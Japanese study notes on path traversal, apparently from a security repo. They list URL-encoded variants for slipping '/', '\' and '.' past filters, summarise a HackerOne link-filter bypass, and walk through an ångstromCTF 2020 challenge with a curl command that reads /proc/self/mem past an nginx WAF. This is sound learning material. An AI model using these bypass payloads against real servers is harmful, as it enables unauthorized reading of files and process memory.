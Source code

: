 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [概要](#%E6%A6%82%E8%A6%81)
- [writeup](#writeup)
  - [bypass filter "." with "%E3%80%82" (hackerone)](#bypass-filter--with--hackerone)
  - [python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)](#python--bypass-nginx-waf-with---procselfmaps-%C3%A5ngstromctf-2020---leettube)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
  - [](#-4)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# 概要
https://security.stackexchange.com/questions/74538/alternative-ways-to-exploit-this-path-traversal/74614#74614  
以下でバイパスできるかも？？  
```txt 
/ %2f %u2215 %252f %c0%af, %e0%80%af, %c0%2f
\ %5c %u2216 %255c %c0%5c, %c0%80%5c
.     %u002e %252e %c0%2e, %e0%40%ae, %c0ae
```
# writeup
## bypass filter "." with "%E3%80%82" (hackerone)
https://hackerone.com/reports/291750  
- **entrypoint**  
`.`は`%E3%80%82`として`。`のURLエンコードでバイパスできるかもらしい。  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub.com`はLinkがBlockされるけど、`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`で
バイパスできる！  
- **payload**  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`  
## python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)
https://blog.srikavin.me/posts/angstromctf-leettube/  
- **entrypoint**  
ソースの以下の部分がパストラバーラルの脆弱性がある。 
`/videos/../../../`みたいにしてファイルを読みだせる！  
```python
			self.path = urllib.parse.unquote(self.path)
			if self.path.startswith('/videos/'):
				file = os.path.abspath('.'+self.path)
				try: video = open(file, 'rb', 0)
```
ただnginxのWAFが上記のリクエストをフィルタリングして400 bad requestを返してしまう。  
`https://leettube.2020.chall.actf.co/videos/../?/../../`みたいにすると、WAFは`?`以降をクエリとしてそこは見ない。python側では`?`フォルダに一回入ってから`../`で抜けるみたいな意味になるらしい？？  
flagは`flag.txt`みたいな感じじゃなくて`.mp4`に書き込まれてるらしくてメモリ上から抜き出す。  
`/proc/self/maps`でメモリマップ(どのアドレスがどうとか)がわかり、`/proc/self/mem`で実際のメモリを呼び出せるらしい。  
以下のように`Range`ヘッダで指定したアドレスを抜き出せるっぽい？？？  
これで`.mp4`のヘッダを表す`66 74 79 70`というパターンを見つけるとFlagがある。  
```txt
curl --path-as-is 'https://leettube.2020.chall.actf.co/videos/../?/../../proc/self/mem' -H "Range: bytes $(python3 -c 'print(f"{0x7f4d4c225000}-{0x7f4d4cae6000}")')" --output memory.dump
```
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
https://www.hamayanhamayan.com/entry/2020/08/30/110845  
